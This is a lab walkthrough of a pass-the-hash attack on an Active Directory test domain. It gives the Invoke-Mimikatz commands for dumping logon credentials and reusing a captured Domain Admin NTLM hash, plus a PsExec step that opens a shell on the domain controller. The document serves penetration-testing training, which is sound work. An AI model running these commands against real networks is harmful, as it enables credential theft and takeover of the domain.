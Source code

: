 # Active Directory LAB - Passing the hash - v04

## Passing the hash

By: CyberSec

**Tools:** 

Invoke-Mimikatz -  [https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

PsExec.exe - [https://learn.microsoft.com/en-us/sysinternals/downloads/psexec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)

Syntax for passing the hash with Invoke-Mimikatz.ps1: 

Command:

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:csl.local /ntlm:<ntlmhash> /run:powershell.exe"

```

### Step 1:

Run Command prompt as local administrator 

![Untitled](Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled.png)

### Step 2:

Start Powershell and bypass execution policy.

**Command:**

```powershell
powershell -ep bypass
```

![Untitled](Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%201.png)

### Step 3:

Import Mimikatz.ps1 into the running powershell session

**Command:**

```powershell
. .\Invoke-Mimikatz.ps1
```

### Step 4:

With local administrator privileges on any host in the domain, we can download and use Mimikatz to extract logon password hash. The below command usually shows recently logged on user and computer credentials.

**Command:**

```powershell

. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command "sekurlsa::logonpasswords"
```

The below hash was provided for us to reuse it against another target machine.

![Untitled](Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%202.png)

![Untitled](Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%203.png)

```powershell
Domain Administrator NTLM Hash: 9906ed8e920cc9870cf919af7db14875
```

Since, we were able to get the Domain Administrators hash, we can attempt to pass the hash in order to access the domain controller without knowing the plaintext password.

### Step 5:

Start a new Powershell session with local administrator’s privileges and use **invoke-mimikatz.ps1** to pass the hash to move laterally:

![Untitled](Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%204.png)

**Command:**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:csl.local /ntlm:9906ed8e920cc9870cf919af7db14875 /run:powershell.exe"'
```

![Untitled](Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%205.png)

A new powershell session is started once the above command is issued.

### **Step 6:**

Finally, can use PsExec.exe 

**Command:** 

```powershell
. .\PsExec.exe -Accepteula \\dc01.csl.local cmd
```

![Untitled](Active%20Directory%20LAB%20-%20Passing%20the%20hash%20-%20v04%20bc76fa23a2294ad68108a617ea36d3af/Untitled%206.png)